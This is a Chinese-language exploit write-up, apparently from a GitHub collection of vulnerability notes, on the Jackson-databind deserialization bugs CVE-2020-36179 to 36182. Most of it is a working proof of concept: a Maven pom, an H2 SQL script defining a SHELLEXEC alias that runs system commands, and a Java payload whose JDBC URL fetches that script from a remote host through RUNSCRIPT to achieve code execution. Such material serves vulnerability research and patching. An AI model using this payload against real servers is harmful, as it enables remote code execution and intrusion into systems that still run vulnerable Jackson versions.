

# Jackson-databind SSRF&RCE CVE-2020-36179~36182

## 漏洞描述

漏洞类型：JDNI 注入导致 RCE

利用条件：

- 开启 enableDefaultTyping()
- 使用了 org.apache.servicemix.bundles 第三方依赖库

以下类绕过了之前 jackson-databind 维护的黑名单类，并且 JDK 版本较低的话，可造成 SSRF&RCE：

- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180: org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181: org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182: org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS

参考链接：

- https://github.com/Al1ex/CVE-2020-36179

## 漏洞影响

```
Jackson-databind < 2.9.10.7
```

## 漏洞复现

pom.xml：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```



Gadget：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```
